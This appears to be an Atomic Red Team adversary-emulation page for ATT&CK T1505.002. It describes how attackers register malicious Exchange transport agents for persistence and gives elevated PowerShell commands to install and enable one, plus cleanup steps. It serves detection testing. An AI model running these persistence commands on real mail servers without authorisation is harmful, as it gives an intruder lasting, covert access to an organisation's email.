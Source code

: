 # T1505.002 - Transport Agent
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/002)
<blockquote>Adversaries may abuse Microsoft transport agents to establish persistent access to systems. Microsoft Exchange transport agents can operate on email messages passing through the transport pipeline to perform various tasks such as filtering spam, filtering malicious attachments, journaling, or adding a corporate signature to the end of all outgoing emails.(Citation: Microsoft TransportAgent Jun 2016)(Citation: ESET LightNeuron May 2019) Transport agents can be written by application developers and then compiled to .NET assemblies that are subsequently registered with the Exchange server. Transport agents will be invoked during a specified stage of email processing and carry out developer defined tasks. 

Adversaries may register a malicious transport agent to provide a persistence mechanism in Exchange Server that can be triggered by adversary-specified email events.(Citation: ESET LightNeuron May 2019) Though a malicious transport agent may be invoked for all emails passing through the Exchange transport pipeline, the agent can be configured to only carry out specific tasks in response to adversary defined criteria. For example, the transport agent may only carry out an action like copying in-transit attachments and saving them for later exfiltration if the recipient email address matches an entry on a list provided by the adversary. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Install MS Exchange Transport Agent Persistence](#atomic-test-1---install-ms-exchange-transport-agent-persistence)


<br/>

## Atomic Test #1 - Install MS Exchange Transport Agent Persistence

auto_generated_guid: 43e92449-ff60-46e9-83a3-1a38089df94d

Install a Microsoft Exchange Transport Agent for persistence. This requires execution from an Exchange Client Access Server and the creation of a DLL with specific exports. Seen in use by Turla.
More details- https://docs.microsoft.com/en-us/exchange/transport-agents-exchange-2013-help
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| class_factory | Class factory of transport agent. | string | Microsoft.Exchange.Security.Interop.SecurityInteropAgentFactory|
| dll_path | Path of DLL to use as transport agent. | path | c:&#92;program files&#92;microsoft&#92;Exchange Server&#92;v15&#92;bin&#92;Microsoft.Exchange.Security.Interop.dll|
| transport_agent_identity | Friendly name of transport agent once installed. | string | Security Interop Agent|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Install-TransportAgent -Name #{transport_agent_identity} -TransportAgentFactory #{class_factory} -AssemblyPath #{dll_path}
Enable-TransportAgent #{transport_agent_identity}
Get-TransportAgent | Format-List Name,Enabled
```

#### Cleanup Commands:
```powershell
if(Get-Command "Get-TransportAgent" -ErrorAction Ignore){
  Disable-TransportAgent #{transport_agent_identity}
  Uninstall-TransportAgent #{transport_agent_identity}
  Get-TransportAgent
}
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Exchange SnapIn must be installed
##### Check Prereq Commands:
```powershell
Get-TransportAgent -TransportService FrontEnd
```
##### Get Prereq Commands:
```powershell
Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn
```




<br/>
